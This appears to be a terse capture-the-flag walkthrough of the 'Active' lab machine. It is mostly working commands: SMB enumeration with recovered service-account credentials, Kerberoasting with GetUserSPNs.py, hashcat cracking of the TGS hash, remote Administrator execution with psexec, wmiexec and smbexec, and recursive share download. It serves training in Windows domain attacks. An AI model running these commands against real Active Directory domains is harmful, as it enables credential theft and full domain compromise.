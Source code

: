   

user: pass

**SVC_**TGS : GPPstillStandingStrong2k18

```JavaScript
smbclient //10.10.10.100/users -U active.htb/SVC_TGS%GPPstillStandingStrong2k18  
enum4linux-ng -u svc_tgs -p GPPstillStandingStrong2k18 -A 10.10.10.100
enum4linux  -u svc_tgs -p GPPstillStandingStrong2k18 -U 10.10.10.100 
rpcclient -U "active.htb\SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -r 'Users' 
```

```JavaScript
cat $(find .  -type f -name "user.txt")
```

```JavaScript
Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -File
```

```JavaScript
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
hashcat -m 13100 -a 0 GetUserSPNs.out /users/share/wordlists/rockyou.txt --force 
```

```PHP
$krb5tgs$<etype>$*<username>$<realm>$<SPN>*<checksum>$<encrypted data>...

```

- `$krb5tgs`: Indicates a Kerberos Ticket Granting Service (TGS) hash.
- `23`: Encryption type, where 23 refers to RC4-HMAC.
- `Administrator`: The username associated with the service account, which in this case is `Administrator`.
- `ACTIVE.HTB`: The Kerberos realm or domain.
- `active.htb/Administrator`: The service principal name (SPN).

  

```JavaScript
smbexec.py Administrator:Ticketmaster1968@10.10.10.100     
wmiexec.py Administrator:Ticketmaster1968@10.10.10.10
psexec.py Administrator:Ticketmaster1968@10.10.10.100
```

```JavaScript
smbclient //10.10.10.100/users -U active.htb/administrator%Ticketmaster1968  -c "prompt OFF; recurse ON; mget *"
```

```JavaScript
cat $(find .  -type f -name "root.txt")

```

`GetUserSPNs` should be used after obtaining valid credentials for a domain user, especially when those credentials have administrative privileges. This tool is used to identify service accounts that have Service Principal Names (SPNs) registered in a Windows Active Directory domain. These service accounts often have higher privileges and can be targeted for further attacks, such as Kerberoasting.
